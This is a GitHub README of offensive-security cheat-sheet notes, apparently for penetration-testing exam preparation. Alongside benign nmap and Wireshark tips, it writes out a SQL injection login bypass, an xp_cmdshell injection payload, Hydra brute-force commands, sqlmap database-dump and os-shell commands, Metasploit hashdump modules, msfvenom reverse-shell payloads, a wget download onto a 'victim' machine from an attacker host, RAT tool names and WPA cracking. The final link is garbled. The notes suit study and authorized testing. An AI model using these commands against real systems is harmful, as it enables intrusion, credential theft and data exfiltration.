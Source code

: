 # OffSec-Notes
Repository created for keeping notes on various topics, vulnerabilities and tools useful in penetration testing. 

# Reconnaissance

### Some Common Ports

 Port     | Service  | Protocol          |
| --------|:--------:| -----------------:|
| 21      | FTP      |    TCP, UDP, SCTP |
| 22      | SSH      |    TCP, UDP, SCTP |
| 137     | NetBIOS  |    TCP, UDP       |
| 161     | SNMP     |    UDP            |
| 445     | SMB      |    TCP, UDP       |
| 3389    | RDP      |    TCP            |

<details open>
<summary>nmap</summary>

```sudo nmap -sn 192.168.0.0/24``` - Check for hosts only, disable port scan (-sn).

```sudo nmap -sn --exclude [IP] 192.168.0.0/24``` - Check for hosts only, disable port scan (-sn), exclude a specific url (--exclude).

```nmap -sT [IP]``` - Use TCP connect scan (-sT) if not root/sudo user. Only option for non sudoers.

```sudo nmap [IP] ``` -  By default nmap uses TCP SYN scan (-sS), but this should be used only from root/sudo user.

```sudo nmap -sV -O -v [IP] -p- -oN [Filename.txt]``` - Default SYN scan with enabled version detection (-sV) and OS detection (-O). Additional flags - verbose mode (-v), all ports (-p-), output to .txt file (-oN). 

```sudo nmap -A [IP]``` - Default SYN scan with enabled OS detection, version detection, script scanning, and traceroute (-A).

```sudo nmap --script http-methods [IP]``` - Default SYN scan with specific script (--script). As an example script *http-methods* (enumerates allowed HTTP methods) is used.

```sudo nmap -sU [IP]``` - Performs UDP scan (-sU).

```-n``` - Tells Nmap to never do reverse DNS resolution on the active IP addresses it finds. Since DNS can be slow even with Nmap's built-in parallel stub resolver, this option reduces scanning times.

Useful nmap scripts:

 Script   | Service  | Description |
|:--------|:--------|:-----------|
| smb-os-discovery.nse    | SMB (445)  | Enumerate OS, domain name,etc. |
| smb-enum-users.nse      | SMB (445)  | Used to enumerate all users on remote Windows system using SAMR enumeration and LSA bruteforcing. |
| smb-enum-shares.nse     | SMB (445)  | SMB shares. |
| nbstat.nse     | NetBIOS (137)  | NetBIOS enumeration, use -sU for UDP. |

</details>

# Brute-force
<details open>
<summary>Hydra</summary>

```sudo hydra -l <username> -P <wordlist> [URL] ssh``` - Basic Hydra command for brute-forcing ssh password. Works similarly with other protocols such as FTP.

```sudo hydra -l <username> -P <wordlist> [base_URL] http-post-form "<path>:<login_credentials>:<invalid_response>"``` - Hydra command for HTTP POST form. Path need to be specified seperately from base URL.

</details>

# SQL Injection

For SQL injection focused task either perform the injection manually or use sqlmap tool. Check fields using single quote or encoded single quote.

```blah' or 1=1 --``` - Basic login bypass payload. Adjust for specific case.

```blah';exec master..xp_cmdshell 'ping [URL] -l 65000 -t'; --``` - Example command to pop shell through sql injection.

<details>
<summary>sqlmap</summary>

```sudo sqlmap -u “[URL]” --cookie="[cookie_value]" --dbs``` - Initial command to enumerate databases (--dbs). Add cookie values if necessary (--cookie).

To get the cookie for this login -> inspect element -> console -> type ```document.cookie```

```sudo sqlmap -u “[URL]” -D [database_name] --tables``` - Enumerate tables in the specified database (--tables).

```sudo sqlmap -u “[URL]” -D [database_name] -T [table_name] --columns``` - Enumerate columns in the specified table (--columns).

```sudo sqlmap -u “[URL]” -D [database_name] -T [table_name] --dump``` - Dump all data from table (--dump).

```sudo sqlmap -u “[URL]” --os-shell``` - Pop shell through sqlmap (--os-shell).

```sudo sqlmap -r [filename] --batch -v 5 | tee [output]``` - Use sqlmap with request from file (-r), for example, captured by Burp. This command also uses standard behaviour (--batch) and saves the output to a file (| tee)


</details>

# Metasploit

### Handy Metasploit modules

 Module    | Service  | Description       |
| --------|:--------:|:-----------------|
| smb_login     | SMB      |    Brute-force SMB credentials. |
| smb_version   | SMB      |    Scan for SMB version.        |
| smb_enumshares| SMB      |    Enumerates SMB shares.       |
| post/windows/gather/smart_hashdump  | Windows(any)    | ```run post/windows/gather/smart_hashdump``` - Use this when in meterpreter shell and want to search for Windows hashes.        | 
| post/linux/gather/hashdump   | Linux(any)    | ```run post/linux/gather/hashdump``` - Use this when in meterpreter shell and want to search for Linux hashes.        |
| exploit/multi/handler| Any      |    Use this to catch shell.       |

<details>
<summary>msfvenom</summary>

### Msfvenom Payload Examples

```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf``` - Linux.

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe``` - Windows.

```msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php``` - PHP.

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp``` - ASP.

 ```msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py``` - Python.

Remember to set correct payload in the exploit/multi/handler as well!
 
Refer to "Transfering Files" section in order to see details how to upload these shells.

</details>

# Malware Threats

<details>
<summary>RAT's</summary>

You need to target the right IP and port number (try default first).
You need to use the right tool from the available.

Example tools to establish a connection to a RAT:
- njRAT
- MoSucker
- ProRat
- Theef
- HTTP RAT

</details>

<details>
<summary>Malware Analysis Tools</summary>

https://www.hybrid-analysis.com/ - Online tool.

**DIE (Detect it Easy)** - Scan and analyze .elf files.

**PE Explorer** - Find entry point address.

</details>

# Traffic Sniffing
<details open>
<summary>Wireshark</summary>

```tcp.flags.syn==1``` - Filter apply example, this one searches for SYN packets.

Follow streams to check for interesting data. Rightclick on packet -> Follow -> TCP Stream (can be other protocols).

To check for files in the conversations use export option. File -> Export -> HTTP (can be other protocol) -> sort by content-type to see if there are any .txt files for example.

**To followup on something like a DoS or DDoS attack go into Statistics -> Conversations and sort by packet count or bytes sent.**

![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/b0417cc6-a20b-450a-bce0-4588031e210e)


### View capture file properties to look for comments.
![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/39f702e0-c213-457b-9695-cb336a4488b9)

**IOT** ```mqtt``` to filter mqtt trafic. Publish message might be important.

</details>

# Transfering Files

```python3 -m http.server 9000``` - Set up HTTP server on attacjubg machine.

```wget http://[ATTACKING_IP]:9000/[filename]``` - Use on victim machine to download.

OR use SCP, SFTP or FTP protocols.

```scp /path/to/local/file.txt <user>@$IP:$PORT:/path/to/remote/``` - SCP file transfer example.

# Wireless Attacks
<details>
<summary>aircrack-ng</summary>
Used to crack .cap files. WEP, WPA/WPA2 wireless networks.

```aircrack-ng [filename].cap```

- Works for WEP.
- If the capture file has sufficient packets aircrack will be able to crack it.

```aircrack-ng [filename].cap -w [file]``` 

- Works for WPA.
- Dictionary added (-w).

</details>

# Useful Links

### Notes:

https://github.com/infovault-Ytube/CEH-Practical-Notes

https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master

https://github.com/TheCyberpunker/CEH-Practical-Notes

https://chirag-singla.notion.site/chirag-singla/CEH-Practical-Preparation-7f2b77651cd144e8872f2f5a30155052

https://ceh-practical.cavementech.com/

https://infosecwriteups.com/privileges-escalation-techniques-basic-to-advanced-in-linux-973cb62cbe8d

### Tool Documentation:

https://github.com/horsicq/Detect-It-Easy

### Videos

https://www.youtube.com/watch?v=VuIYNxazbN0&list=PLZEA2EJpqSWfouVNPkl37AWEVCj6A2mdz&index=9

https://www.youtube.com/watch?v=4JzLg7wjHm8&list=PL-Fa25Pu8l6wV1Se-bPY-Onc6t_mUTZHW

https://www.youtube.com/watch?v=`x31mz'|F='op!'!jmA|
